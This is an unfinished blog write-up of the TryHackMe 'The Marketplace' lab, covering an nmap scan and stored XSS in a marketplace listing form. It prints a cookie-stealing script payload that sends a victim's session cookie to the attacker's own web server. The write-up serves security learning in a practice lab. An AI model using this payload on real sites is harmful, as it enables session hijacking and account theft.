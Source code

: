 ```yaml
---
title: TryHackMe The Marketplace Writeup
date: 2023-07-05T13:34:41.636Z
description: My solution for the TryHackMe Room "The marketplace"
---
```

T﻿his room is rated at medium difficulty and covers some interesting topics such as XSS (cross-site scripting), SQL Injection, and a couple of methods for privilege escalation. For me, the victim machine is at address `10.10.15.67`

## R﻿econnaissance

S﻿tarting with an `nmap`scan to find running services and open ports.

```shell
$ nmap -sV 10.10.15.67
```

```
Nmap scan report for ip-10-10-15-67.eu-west-1.compute.internal (10.10.15.67)
Host is up (0.00038s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    nginx 1.19.2
32768/tcp open  http    Node.js (Express middleware)
...
```

F﻿rom this we can see that there is a web server running on the machine, as well and an OpenSSH instance. Let's start by taking a look at the web page .by navigating to `http://10.10.15.67` in a browser

![](/img/webpage.png)

T﻿he website seems to be some sort of online marketplace (surprise, surprise). Poking around on the website uncovers the ability to log in or sign up to create an account. After signing up and logging in, there were some new options available to me: the ability to create a listing, and to view messages for my account. As well as this, there was a session cookie created with the name `token`. These session cookies are used by the browser in order to tell what user is logged in, in order to show them the correct content on the page.

I﻿f we can somehow replace our own session token with one of an administrator or high-level user, we will likely be able to have some administrative options which may help us obtain a reverse shell on the machine. Let's try creating a listing. On the listing creation page, there is a simple form to input the title and content of the listing, we can try testing for XSS vulnerabilities by attempting to embed a textarea element into the page (in the content field). When we then view the listing, and a textarea field is present, we know that the site is vulnerable to XSS injection. 

![](/img/textarea.png)

![](/img/textareaworking.png)

W﻿ith an XSS vulnerability present, we can create a malicious listing that will steal the user's cookie and send it to our web server (which we will set up shortly). When we use the "report listing to administrator" function on the website, the THM machine will automatically mimic an administrator navigating to the listing. With this, we will be able to steal their cookie.

F﻿irst, the cookie stealing payload:

> `<script>fetch('http://<YOUR_MACHINE_IP>:8000/steal?cookie='+btoa(document.cookie));</script>`

T﻿hen, the setup of the web server using python:

```shell
$ python3 -m http.server
```

N﻿ow, let's submit the listing, and report it to the administrators.

![](/img/listing.png)

![](/img/reported.png)

I﻿f we look in our web server console, sure enough we got the cookie! We will need to base64 decode the cookie into order to get the administrator's token.

![](/img/gotcookie.png)

c﻿heckpoint save